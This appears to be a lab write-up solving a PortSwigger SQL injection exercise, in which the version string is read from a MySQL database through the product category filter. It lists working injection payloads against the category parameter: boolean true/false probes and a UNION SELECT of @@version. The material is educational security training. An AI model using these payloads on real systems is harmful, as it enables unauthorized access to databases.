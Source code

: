 
# SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. (Make the database retrieve the string: '8.0.32-0ubuntu0.20.04.2')

---------------------------------------------
Reference: 
- https://portswigger.net/web-security/sql-injection/examining-the-database
- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


Filtering using GET parameter “category”: "/filter?category=Accesories"

<img width="1283" height="863" alt="1" src="https://github.com/user-attachments/assets/3bac46cf-d13d-4cd4-bb21-6f9e8f2e3bb2" />


/filter?category=Accesories -> Return 4 items

/filter?category=Accessories';# -> Return 4 items, the query is finished

/filter?category=Accessories'+and+'1'='1  -> Return 4 items

/filter?category=Accessories'+and+'1'='0  -> Return 0 items

/filter?category=Accessories'+union+select+0,@@version#

```
/filter?category=Accessories'+union+select+0,@@version#
``` 

<img width="1534" height="832" alt="2" src="https://github.com/user-attachments/assets/706a6b72-4a5a-4647-924c-2db77e8dfc17" />



